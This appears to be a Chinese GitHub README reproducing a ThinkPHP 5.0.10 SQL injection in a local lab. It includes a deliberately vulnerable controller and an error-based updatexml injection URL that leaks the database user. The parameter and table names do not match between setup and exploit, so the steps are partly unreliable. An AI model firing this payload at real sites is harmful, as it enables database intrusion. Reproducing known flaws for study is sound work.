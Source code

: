  #  ThinkPHP5 SQL注入漏洞

## 0x01 ThinkPHP部署
从ThinkPHP官网下载了5.0.10 的全版本

解压后切换到ThinkPHP的根目录
生成app
```shell
php think build --module home
```


![](README/F8288146-9874-48FF-BFF4-38D148B1E85F.png)
执行完成之后会在application目录下生成一个home文件夹

![](README/F3DADE6D-9ED6-466D-B3E6-0231CEA12104.png)

修改application_index_controller/Index.php文件，在文件中添加基本的调用。添加以下代码：

```php
<?php
namespace app\index\controller;
use think\Db;

class Index
{
    public function index()
    {
        $name = input("get.name/a");
        Db::table("users")->where(["id"=>1])->insert(["username"=>$name]);
        return "ThinkPHP SQL Test.";
    }
}
```


编辑application目录下的database.php,填好数据库参数

![](README/D6F2C588-E1F2-41E9-9043-C32E4F48C3C0.png)

然后在数据库中新建一个thinkphp数据库，数据库中创建一个article表，表里包含一个varchar类型的content字段

## 0x02 漏洞利用

```
http://127.0.0.1/public/index.php?password[0]=inc&password[1]=updatexml(2,concat(0x7e,user()),0)&password[2]=1
```

![](README/611F7BBD-FB45-4E50-8E71-3A98D8C4078F.png)


鸡肋到不行的漏洞


[ThinkPHP框架5.0.x SQL注入分析 - ZeroKeeper's Blog](http://www.zerokeeper.com/vul-analysis/thinkphp-framework-50x-sql-injection-analysis.html)
[代码审计 | ThinkPHP5.0.x框架SQL注⼊ - Mochazz's blog](https://mochazz.github.io/2018/04/14/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%20%7C%20ThinkPHP%205.0.x%E6%A1%86%E6%9E%B6SQL%E6%B3%A8%E2%BC%8A/)